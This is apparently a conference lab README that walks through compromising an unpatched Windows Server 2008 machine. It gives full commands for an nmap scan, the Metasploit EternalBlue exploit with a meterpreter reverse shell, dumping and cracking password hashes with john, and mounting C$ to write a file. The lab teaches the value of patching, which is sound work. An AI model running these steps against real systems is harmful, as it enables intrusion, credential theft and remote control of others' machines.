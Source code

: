 # RSSC2018 Endpoint Attack Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Windows Server 2008 as an attack target, either running on a VM or a separate machine, with the following requirements:
   * Fresh, unpatched install
   * Firewall disabled
   * SMBv1 enabled (enabled by default, so if you have not specifically disabled it then you don't need to change anything here)
   * The Administrator password should be set to something simple to make the demonstration of password cracking easier. In our example, we'll use `Drowssap1` as our password.
2. Kali Linux installed to attack the target host from
3. Both machines should be connected to the same network

## Attack Execution

Here we will walk through the process of attacking and gaining access to the unpatched Windows Server 2008 instance.

1. On your Kali installation, open 2 terminals. For now, we will work in Terminal 1.
2. We need to discover the host and determine what services are available on the machine so we can begin looking for weaknesses. nmap is a tool that helps us do this.

```bash
nmap -T4 -sSVC <IP address of your Windows server> -p 80,443,445
```

   These parameters do the following:  

   * -T4 sets the timing template to aggressive to make the scan happen more quickly
   * -sSVC specifies that nmap should use the SYN scan technique, should probe open ports to determine information about the service that opened the port, and sets the scripts nmap should use to default
   * -p specifies which ports to scan once host discovery is complete. In this scenario, we'll be scanning the commonly used web ports 80 and 443, as well as the SMB share port 445.

   More information on the commands used, or other information about nmap can be found by running `man nmap`.  

   This should return information about the SMB service on 445, so now we've determined that SMB may be a good attack point.  

3. We can see from the output that nmap was able to determine from the SMB information that the operating system is Windows Server 2008. We know that this OS, if unpatched, can be vulnerable to the ETERNALBLUE exploit. We'll now run an nmap script to determine if this server is unpatched and vulnerable.

```bash
nmap -p 445 <IP of Windows host> --script smb-vuln-ms17-010
```

   * This tells nmap to scan your host on port 445 using the script that determines if it is vulnerable to ETERNALBLUE. It should come back indicating that it is indeed vulnerable.

4. Now that we know the host is vulnerable to ETERNALBLUE, we can run an exploit on it. On Terminal 1, start the metasploit console, which we will use to execute the attack.

```bash
msfconsole
```

5. Once you are at the msfconsole command prompt, select the metasploit module for eternal blue (msfconsole supports tab-complete).

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

6. Review your options for this module.

```bash
show options
```

7. Notice that the RHOST option is requied. This is the IP address of the host to be attacked.

```bash
set RHOST <IP address of your Windows server>
```

8. Now we need to set the payload. You can use many kinds of payloads to gain shell access, but in this scenario we'll deploy a meterpreter reverse tcp shell that connects back to our local box. Meterpreter shell allows us to execute a variety of useful functions once we gain access to the target box.

```bash
set payload payload/windows/meterpreter/reverse_tcp
```

9. Now show options again, and notice that the LHOST option is now available and required. This needs to be set to the IP of your local box so the shell knows where to connect back to once it's running on the target host.

```bash
set LHOST <IP of your Kali box>
```

10. Run the exploit. If it goes well, you should see a WIN! message and have a new meterpreter shell prompt.

```bash
run
```

11. You should now have a meterpreter shell prompt on the target host. You can run `help` at any time to see the commands availalbe to you here. First we'll want to launch a cmd prompt and run some commands to verify you have system access to the correct host.

```bash
shell
whoami
hostname
exit
```

12. Back at the meterpreter shell, now we want to see if we can get a dump of the passwords and then try to crack them. To make this easier, we want to start a logging session so any dumped hashes are already saved for us in a text file. To do this, we need to run the `background` command to bring us back to the msfconsole prompt and start spooling. Run the following commands.

```bash
background
spool /tmp/console.log
```

13. This will start logging all of your commands and output to /tmp/console.log. Now we need to connect back to our meterpreter shell session. To view the list of sessions available, use the `sessions -l` command, followed by `sessions -i <id>` where `<id>` is the ID of the session listed from the output of the `sessions -l` command.

```bash
sessions -l
sessions -i <id>
```

14. Back on the meterpreter shell, run `hashdump`. You should see a list of usernames and hashed passwords, which are automatically logged as output to /tmp/console.log. 

15. Background the session again, and turn off spooling so we don't keep outputting unnecessary logs to /tmp/console.log

```bash
background
spool off
```

## Password Cracking

1. Let's switch over to Terminal 2 at this time. Now that we have a copy of the hashed passwords, we want to see if we can crack them. You can view the contents of the log output by running `cat /tmp/console.log`. Notice that there's more information than just the hashed passwords in here from the other commands we've run from our session. To clean this up and get a file that just contains the password hashes, we can `grep` that information out to a new file.

```bash
grep ":::" /tmp/console.log | tee hashedpasswords.txt
```

   * The grep command searches for the string ":::" in the console.log file (which the lines with hashed passwords will have), prints it out to the console and pipes it to the `tee` command, which saves console output to the file `hashedpasswords.txt`.
   
2. Now we can run our password cracking tool to crack the password. There are many cracking tools available, but for this exercise we'll use `john`.

```bash
john --format=nt hashedpasswords.txt
```

   * For more information on the options that can be used with `john` for more complex cracking processes, you can run `john -h` to display the help text.

3. This should now show you that the Administrator password was successfully cracked to be `Drowssap1`. We can confirm that this is correct through a variety of methods, but for our purposes, we'll mount the protected c$ share on the attack box and write a file to it.

```bash
mkdir -p /mnt/atk_share
smbclient -L hostname -I <IP of Windows host> -U Administrator
mount -t cifs //<ip of Windows host>/C$ /mnt/atk_share -o username=Administrator,password=Drowssap1
```

   * `mkdir` command creates the full directory specified
   * `smbclient` command lists the shares available on the target host. This will prompt you for the Administrator password, which you should supply the cracked password
   * `mount` command mounts the Windows share to /mnt/atk_share with the username and password specified, and specifies the type as a CIFS share

4. Now we can change directory to the remote share and see if we can write a file on the C:\ directory of the remote host.

```bash
cd /mnt/atk_share
echo "you done been" > pwnd.txt
ls
```

   * This changes directory to the atk_share directory and writes a file to the share called `pwnd.txt` with the contents `you done been`.
   * To confirm, you can run `cat pwnd.txt` and you should see your contents.
   * You can also log into your Windows host directly and confirm there is a file at C:\pwnd.txt with those contents.
   
## Cleanup

1. Now that we're finished with our exercise, we need to close the existing session on the target. Back on Terminal 1, instruct metasploit to terminate the existing session.

```bash
sessions -K
```

2. You can now exit metasploit by running `exit`.

# Conclusion

We hope this has been useful in seeing the process of a basic attack on an unpatched Windows host, which should demonstrate how important patching and hardening procedures are to protecting against such easy attack vectors that can be very damaging to your environment.
